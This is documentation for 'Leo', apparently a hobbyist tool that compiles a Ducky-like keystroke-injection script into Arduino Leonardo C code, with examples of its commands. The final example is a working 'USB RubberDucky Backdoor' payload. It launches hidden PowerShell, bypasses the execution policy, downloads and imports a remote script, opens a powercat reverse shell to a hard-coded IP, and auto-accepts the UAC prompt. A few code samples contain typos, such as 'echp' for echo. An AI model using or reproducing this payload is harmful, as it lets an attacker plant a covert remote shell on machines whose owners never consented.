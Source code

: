 Arduino Leonardo is one of Arduino family, which can emulate keyboard and mouse, some of my friends asked me to write an interpreter for the Arduino which can turn a ducky like script into C code. This post is going to be how to use that Leo interpreter

### How to Run It?

Its pretty simple just clone the repo and copy the leo.py to desire location, then

python leo.py payload.txt -o payload.c
This will convert the Leo script into C code

### What is Ducky Script

Ducky Script is the language of the USB Rubber Ducky. Writing scripts for can be done from any common ascii text editor such as Notepad, vi, emacs, nano, gedit, kedit, TextEdit, etc.

### What is Leo Script

Leo is a ducky like script, it very simple and easy to understand. I said ducky like script because actually, you can not use a ducky script with Leo, some syntax might look similar to ducky script but its not

### Syntax

Leo script is simple. Each command resides on a new line and may have options follow. Commands are written in ALL CAPS, Below is a list of commands and their function, followed by some example usage.

### Comment

lines beginning with `#` symbol will not be processed. `#` is a comment.

```python
# The next three lines execute a command prompt in Windows
gui "r"
echo "cmd"
enter
```

### Sleep

`sleep` creates a momentary pause in the Leo script. It is quite handy for creating a moment of pause between sequential commands that may take the target computer sometime to process. `sleep` time is specified in milliseconds from 1 to 10000. Multiple `sleep` commands can be used to create longer delays.

```python
sleep 500
# will wait 500ms before continuing to the next command.
```

### Echo

`echo` processes the text following taking special care to auto-shift. `echo` can accept a single or multiple characters.

```python
gui "r"
sleep 500
echo "notepad.exe"
enter
sleep 1000
echo "Hello World!"
```

### GUI

Emulates the Windows-Key, sometimes referred to as the Super-key.

```
gui "r"
# will hold the Windows-key and press r, on windows systems resulting in the Run menu.
```

### SHIFT

Unlike CAPSLOCK, cruise control for cool, the SHIFT command can be used when navigating fields to select text, among other functions.

```
shift tab
# this is paste for most operating systems
```

<!-- Check out `python leo.py keylist` to see all available argument keys -->

### ALT 

Found to the left of the space key on most keyboards, the ALT key is instrumental in many automation operations. ALT is envious of CONTROL

```python
gui "r"
sleep 50
echo "notepad.exe"
enter
sleep 100
echp "Hello World"
alt "f"
echo "s"
```

### CTRL 

The king of key-combos, CONTROL is all mighty.

```python
ctrl esc
# this is equivalent to the GUI key in Windows
```

### Arrow Keys

- up_arrow
- down_arrow
- left_arrow
- right_arrow

### Press multiple keys together

combine keys allow you to perform multiple keypresses

```python
gui "r"
echo "powershell"
ctrl shift enter
alt "y"
```


### Examples

```python
################################
##  USB RubberDucky Backdoor  ##
################################

# This first delay stalls the Ducky for 5.5 seconds to give the target
# operating system some time to mount the USB as a keyboard device.
sleep 5500

# Opens the Windows Run prompt.
gui "r"

# Delays .7 seconds to give the Run prompt time to open.
sleep 700

# Types the PowerShell payload.
echo "powershell /w Hidden /C $a=$env:TEMP;Set-ExecutionPolicy Bypass;wget https://cutt.ly/cW13i -o $a\d.ps1;ipmo $a\d.ps1;powercat -c 192.168.1.10 -p 3000 -e powershell"

# Presses Ctrl + Shirt + Enter to execute the PowerShell with administrative privileges.
ctrl shift enter

# Delay .85 seconds to give the UAC prompt time to open.
sleep 850

# ALT + Y to bypass UAC.
alt "y"
```
